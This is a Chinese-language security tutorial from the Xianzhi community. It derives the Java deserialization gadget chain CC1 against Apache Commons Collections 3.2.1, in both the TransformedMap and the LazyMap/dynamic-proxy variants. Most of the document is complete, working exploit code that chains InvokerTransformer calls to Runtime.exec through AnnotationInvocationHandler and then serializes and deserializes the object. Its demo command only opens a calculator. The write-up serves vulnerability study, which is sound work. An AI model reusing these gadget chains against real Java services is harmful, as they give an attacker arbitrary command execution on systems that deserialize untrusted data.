# Java反序列化CC1链子之国内国外版本总结-先知社区

> **来源**: https://xz.aliyun.com/news/17729  
> **文章ID**: 17729

---

# 环境配置

漏洞存在在JDK8U71以下的JDK版本中

## commons-collections-3.2.1源码



在pom.xml中添加

```
    <dependencies>
        <!-- https://mvnrepository.com/artifact/commons-collections/commons-collections -->
        <dependency>
            <groupId>commons-collections</groupId>
            <artifactId>commons-collections</artifactId>
            <version>3.2.1</version>
        </dependency>
    </dependencies>
```

如图所示



## JDK版本

使用的是JDK8u65



下载地址：

```
https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html
```

如图所示


# CC1（国内版）

## 链子源头

按 Clrt + alt + B ，如图点击来到这里



在commons-collections-3.2.1源码中的 InvokerTransformer类继承了Transformer接口，我们进去来到这里看



可以看到这是一个很经典的反射调用执行方法，通过InvokerTransformer有参构造，然后调用Transform方法，从而可以构造任意命令执行。

### 代码演示

```
package CCserialize.CC1;


import org.apache.commons.collections.functors.InvokerTransformer;

public class CC1 {
    public static void main(String[] args) throws Exception{
        InvokerTransformer invokerTransformer = 
                new InvokerTransformer("exec",
                new Class[]{String.class},
                new Object[]{"calc"});
        invokerTransformer.transform(Runtime.getRuntime());

    }

}


```

### 原理

代码构造：一一对应



最后有参构造的InvokerTransformer方法整理好之后再调用transform方法



因为input.getClass()的意思获取类，所以我们只需要在 transform方法中传递一个能够调用系统命令执行的类就可以了

```
            Class cls = input.getClass();
            Method method = cls.getMethod(iMethodName, iParamTypes);
            return method.invoke(input, iArgs);
```

运行之后可以看见成功弹出计算器



### 初步构造链

从而得出构造链：

```
InvokerTransformer.transform --> 任意命令执行
```

## 向上寻找链子

我们只需要寻找谁调用transform方法，就可以知道下一条链子了



最终在这里可以看见 TransformedMap中的checkSetValue方法调用了

但是由于checkSetValue方法是收保护的类，所以我们不能直接调用这个方法



所以直接谁寻找调用checkSetValue方法即可



在这里可以看到调用方法，双击进去



来到最顶部可以发现AbstractInputCheckedMapDecorator是抽象类



返回关键方法查看可以setValue是公共方法，所以在这里我们可以进行利用。但是由于setValue哈需要parent参数，所以会用到上面那个方法的键值



### 链子构造

```
package CCserialize.CC1;


import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.util.HashMap;
import java.util.Map;

public class CC1 {
    public static void main(String[] args) throws Exception{
        InvokerTransformer invokerTransformer =
                new InvokerTransformer("exec",
                new Class[]{String.class},
                new Object[]{"calc"});
//        invokerTransformer.transform(Runtime.getRuntime());
        HashMap<Object, Object> hashMap = new HashMap<>();
        hashMap.put("value","1");
        Map<Object,Object> decorateMap = TransformedMap.decorate(hashMap, null, invokerTransformer);
        for (Map.Entry entry:decorateMap.entrySet()){
            entry.setValue(Runtime.getRuntime());
        }
    }
}
```

### 原理

由于第一次 transform 寻找调用的方法在 TransformedMap类中的checkSetValue方法



可以看见调用这个方法还需要 valueTransformer 参数



恰好 TransformedMap 类中的 decorate方法 刚好就构造了valueTransformercabs参数，所以我们需要调用TransformedMap类的decorate方法



从而刚好满足这三种条件，hashMap是为了满足decorateMap方法中的第一个参数。

```
        HashMap<Object, Object> hashMap = new HashMap<>();
        hashMap.put("value","1");
        Map<Object,Object> decorateMap =TransformedMap.decorate(
                hashMap,
                null,
                invokerTransformer);
```



所以当调用上一层链子调用checkSetValue方法的时候相当于

```
invokerTransformer.transform(value)
```

那是因为 TransformedMap.decorate的构造参数是 valueTransformer，我们使用了invokerTransformer放到参数中去，所以当 checkSetValue方法调用的时候就会变成 invokerTransformer.transform(value)

#### 可控的value

查看调用checkSetValue方法，可以看见这里有一个 setValue，相当于设置value参数，我们可以将自己精心构造的自定义value放入进去就相当于，第一个链子的命令执行

```
invokerTransformer.transform(Runtime.getRuntime())
```



可以看见MapEntry方法中有 parent参数



所以我们可以通过for函数进行设置键值

```
for (Map.Entry entry:decorateMap.entrySet()){
            entry.setValue(Runtime.getRuntime());
        }
```

最后执行构造链代码，可以看见命令执行成功，弹出计算器



### 构造链拼接

```
setValue() --> TransformedMap.decorate --> checkSetValue()  
--> InvokerTransformer.transform --> 任意命令执行
```

## 最终链

继续按原来的套路寻找向上调用的方法



可以看见这个方法在readObject中，readObject有一个好处就是当执行反序列化的时候自动执行readObject方法



### 构造链

所以我们现在只需要构造AnnotationInvocationHandler类即可，最终执行序列化与反序列化，就能够任意命令执行。

```
        //加载类
        Class<?> c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor<?> constructor = c.getDeclaredConstructor(Class.class, Map.class);
        constructor.setAccessible(true);
        constructor.newInstance(Target.class,decorateMap);
```



### 原理

至于为什么要加载Target.class

```
constructor.newInstance(Target.class,decorateMap);
```

可以看见readObject中有两个if判断，他会判断成员中是否有内容，可以看见Target类中有value



由于它是键名检测，所以前面的 hashMap中就构造好了 "value"



## CC1最终exp代码

### 原理

从而构造原理我们写出以下EXP，但是可以发现少了任意命令执行的类，所以不可以执行成功

```
package CCserialize.CC1;


import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.io.*;
import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.util.HashMap;
import java.util.Map;

public class CC1 {
    public static void main(String[] args) throws Exception{
        InvokerTransformer invokerTransformer =
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"});

        HashMap<Object, Object> hashMap = new HashMap<>();
        hashMap.put("value","1");
        Map<Object,Object> decorateMap =TransformedMap.decorate(hashMap, null, invokerTransformer);


        Class<?> c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor<?> constructor = c.getDeclaredConstructor(Class.class, Map.class);
        constructor.setAccessible(true);
        Object o = constructor.newInstance(Target.class, decorateMap);
        serialize(o);
        unserialize("ser.bin");

    }

    public static void serialize(Object obj)throws Exception {
        new ObjectOutputStream(new FileOutputStream("ser.bin")).writeObject(obj);
    }

    public static Object unserialize(String data)throws Exception{
        return new ObjectInputStream(
                new FileInputStream(data)
        ).readObject();
    }
}

```

#### 反射与Transformer[]

按Ctrl+Alt+B来到 ChainedTransformer方法中



* 我们可以看见这个ChainedTransformer方法可以整合 transformers，成为一个数组。
* 然后transformer会将数组中的 transformers全部会变成 iTransformers[i].transform(object)
* 这就是我们前面很熟悉的命令执行了



所以我们可以整理这个语句

```
new InvokerTransformer("",new Class[]{},new Object[]{});
```

在来到 ConstantTransformer构造方法中



可以看见这个也是很熟悉的

经过代码对比，很明显知道

```
new ConstantTransformer(Runtime.class)
相当于InvokerTransformer中的input
return method.invoke(input, iArgs);                    
```

所以我们可以构造代码为以下：

```
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),
                new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"}),
        };

        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
```



## 最终exp

从而构造最终的国内版本的CC1链EXP代码：

```
package CCserialize.CC1;


import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.io.*;
import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.util.HashMap;
import java.util.Map;


public class CC1 {
    public static void main(String[] args) throws Exception{
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),
                new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"}),
        };

        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);

        HashMap<Object, Object> hashMap = new HashMap<>();
        hashMap.put("value","1");
        Map<Object,Object> decorateMap =TransformedMap.decorate(hashMap, null, chainedTransformer);


        Class<?> c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor<?> constructor = c.getDeclaredConstructor(Class.class, Map.class);
        constructor.setAccessible(true);
        Object o = constructor.newInstance(Target.class, decorateMap);
        
        serialize(o); //序列化
        unserialize("ser.bin"); // 反序列化

    }

    //序列化方法构造
    public static void serialize(Object obj)throws Exception {
        new ObjectOutputStream(new FileOutputStream("ser.bin")).writeObject(obj);
    }

    //构造反序列化方法
    public static Object unserialize(String data)throws Exception{
        return new ObjectInputStream(
                new FileInputStream(data)
        ).readObject();
    }


}


```

运行代码可以看见成功弹出计算器



# CC1(LazyMap国外版)

可以看见国内版对比国外版从这里开始就不一样了



地址：

```
https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/payloads/CommonsCollections1.java
```

## 寻找LazyMap.get()

按原来的方法继续构造代码

```
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;

import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;

public class CC1_LazyMap {
    public static void main(String[] args) throws Exception{
//        InvokerTransformer invokerTransformer = new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"});
//        invokerTransformer.transform(Runtime.getRuntime());

        Transformer[] transformers = new Transformer[]{
//                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),
                new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"}),
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        ChainedTransformer transform = (ChainedTransformer) chainedTransformer.transform(Runtime.class);


    }
```

可以看见能够弹出计算器



查看调用 transform方法的来源



最终我们在这里找到了



可以看见这个get方法执行了transfrom方法，但是我们需要factory参数



### 构造链代码

我们可以看到 LazyMap类中的 decorate构造方法有 factory参数



我们可以利用这个方法从而构造代码：

```
        HashMap<Object, Object> hashMap = new HashMap<>();
        hashMap.put("value","1");
        Map decorateMap = LazyMap.decorate(hashMap, chainedTransformer);
        decorateMap.get(Runtime.class);
```

构造代码与原来的代码进行拼接：

```
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;

import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.util.HashMap;
import java.util.Map;

public class CC1_LazyMap {
    public static void main(String[] args) throws Exception{
//        InvokerTransformer invokerTransformer = new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"});
//        invokerTransformer.transform(Runtime.getRuntime());

        Transformer[] transformers = new Transformer[]{
//                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),
                new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"}),
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
//        ChainedTransformer transform = (ChainedTransformer) chainedTransformer.transform(Runtime.class);
        HashMap<Object, Object> hashMap = new HashMap<>();
        hashMap.put("value","1");
        Map decorateMap = LazyMap.decorate(hashMap, chainedTransformer);
        decorateMap.get(Runtime.class);


    }
}
```

运行代码可以看见计算器成功执行了



## 动态代理&AnnotationInvocationHandler类

### AnnotationInvocationHandler类

我们来到AnnotationInvocationHandler类中invoke方法，可以看见这里调用了get方法，其中memberValues参数是可控的



Ctrl+左键点击 memberValues 可以看见来到 AnnotationInvocationHandler构造类的方法中



所以我们可以构造自己想要的 Map.class 类型放入 memberValues参数类型中，然后就可以执行想要的get方法了。

### 动态代理

在java中如果继承了 InvocationHandler类，就可以实现动态代理。我们可以利用动态代理来实现get方法的调用。

从而构造代码：

```
        Class<?> c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor<?> constructor = c.getDeclaredConstructor(Class.class, Map.class);
        constructor.setAccessible(true);
        InvocationHandler aih = (InvocationHandler) constructor.newInstance(Override.class, decorateMap);
        Map proxyMap = (Map) Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(), new Class[]{Map.class}, aih);
        Object o = constructor.newInstance(Override.class, proxyMap);
```

构造方法参数类型

```
        Class<?> c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor<?> constructor = c.getDeclaredConstructor(Class.class, Map.class);
        constructor.setAccessible(true);
```



就是参数对应就可以了

```
        InvocationHandler aih = (InvocationHandler) constructor.newInstance(Override.class, decorateMap);
        Map proxyMap = (Map) Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(), new Class[]{Map.class}, aih);
```



最后构造方法加载动态代理类

```
constructor.newInstance(Override.class, proxyMap);
```

## 最终exp代码

从而构造最终exp代码

```
package CCserialize.CC1_LazyMap;


import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;

import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.util.HashMap;
import java.util.Map;

public class CC1_LazyMap {
    public static void main(String[] args) throws Exception{
//        InvokerTransformer invokerTransformer = new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"});
//        invokerTransformer.transform(Runtime.getRuntime());

        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),
                new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"}),
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);

        HashMap<Object, Object> hashMap = new HashMap<>();
        hashMap.put("value","1");
        Map decorateMap = LazyMap.decorate(hashMap, chainedTransformer);

//        decorateMap.get(null);

        Class<?> c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor<?> constructor = c.getDeclaredConstructor(Class.class, Map.class);
        constructor.setAccessible(true);
        InvocationHandler aih = (InvocationHandler) constructor.newInstance(Override.class, decorateMap);
        Map proxyMap = (Map) Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(), new Class[]{Map.class}, aih);
        Object o = constructor.newInstance(Override.class, proxyMap);

        serialize(o);
        unserialize("ser.bin");

    }


    public static void serialize(Object obj)throws Exception {
        new ObjectOutputStream(new FileOutputStream("ser.bin")).writeObject(obj);
    }

    public static Object unserialize(String data)throws Exception{
        return new ObjectInputStream(new FileInputStream(data)).readObject();
    }

}

```

运行之后可以看见计算器成功弹出



# 总结

CC1的国内外半的前半链子一样，就后面不一样。一个是方法调用任意命令执行，一个是动态代理类调用方法任意命令执行。
